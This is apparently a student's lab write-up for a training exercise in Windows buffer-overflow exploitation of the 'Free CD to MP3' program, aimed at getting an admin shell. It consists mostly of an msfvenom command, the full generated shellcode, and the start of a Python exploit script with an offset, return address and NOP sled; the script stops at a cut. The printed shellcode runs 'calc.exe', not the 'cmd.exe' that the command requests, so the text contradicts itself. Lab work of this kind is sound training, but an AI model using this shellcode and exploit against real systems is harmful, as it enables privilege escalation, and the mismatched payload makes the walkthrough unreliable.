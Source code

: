 ## Task

In the 'Documents' folder you will find a shortcut that runs the 'Free CD to MP3' program as admin. Try to use the exploit on it to get a command prompt as the admin user, and read the flag in the admin's Desktop.


1. Craft the payload:

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Academy/BufferOverflow/windows]
└─$ msfvenom -p 'windows/exec' CMD='cmd.exe' -f 'python'          
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 193 bytes
Final size of python file: 970 bytes
buf =  b""
buf += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64"
buf += b"\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28"
buf += b"\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c"
buf += b"\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52"
buf += b"\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
buf += b"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49"
buf += b"\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01"
buf += b"\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75"
buf += b"\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b"
buf += b"\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
buf += b"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a"
buf += b"\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00"
buf += b"\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xf0\xb5"
buf += b"\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c"
buf += b"\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
buf += b"\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65"
buf += b"\x00"
```

Add to previous  `win32_exploit.py`:

```python
from struct import pack
def exploit():
    # msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python'
    buf =  b""
    buf += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64"
    buf += b"\x8b\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28"
    buf += b"\x0f\xb7\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c"
    buf += b"\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52"
    buf += b"\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
    buf += b"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49"
    buf += b"\x8b\x34\x8b\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01"
    buf += b"\xc7\x38\xe0\x75\xf6\x03\x7d\xf8\x3b\x7d\x24\x75"
    buf += b"\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b"
    buf += b"\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
    buf += b"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a"
    buf += b"\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\x00\x00"
    buf += b"\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xf0\xb5"
    buf += b"\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c"
    buf += b"\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
    buf += b"\x00\x53\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65"
    buf += b"\x00"

    offset = 4112
    buffer = b"A"*offset
    eip = pack('<L', 0x00419D0B)
    nop = b"\x90"*32
```
